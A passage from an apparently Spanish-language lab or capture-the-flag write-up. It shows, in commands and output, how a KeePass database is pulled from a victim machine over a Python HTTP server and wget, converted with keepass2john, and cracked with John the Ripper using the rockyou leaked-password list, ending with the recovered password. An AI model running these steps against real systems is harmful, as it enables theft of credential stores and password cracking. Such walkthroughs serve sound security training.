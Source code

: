 - Nos enviamos este archivo a nuestra máquina atacante para intentar crackearlo:

--- En la máquina víctima:

```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

--- En la máquina atacante:

```bash
$wget 10.10.67.58:8000/dataset.kdbx
```

```js
--2023-05-24 13:04:38--  http://10.10.67.58:8000/dataset.kdbx
Conectando con 10.10.67.58:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 1566 (1,5K) [application/octet-stream]
Grabando a: «dataset.kdbx»

dataset.kdbx         100%[======================>]   1,53K  --.-KB/s    en 0s      

2023-05-24 13:04:39 (64,1 MB/s) - «dataset.kdbx» guardado [1566/1566]
```

- Ahora creamos un archivo de hash válido para crackearlo con John:

```bash
$keepass2john dataset.kdbx > hash.txt
```

- Es momento de `crackearlo`:

```
$john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash.txt
```

```js
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (dataset)
1g 0:00:00:03 DONE (2023-05-24 13:06) 0.2583g/s 231.5p/s 231.5c/s 231.5C/s chichi..ilovegod
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

- Como vemos hemos podido crackear la contraseña, ahora accedemos al archivo "dataset.kdbx" usando la contraseña que encontramos:

(Si no tienen instalado keepass, en Debian pueden hacerlo con el comando "sudo apt install keepass2")
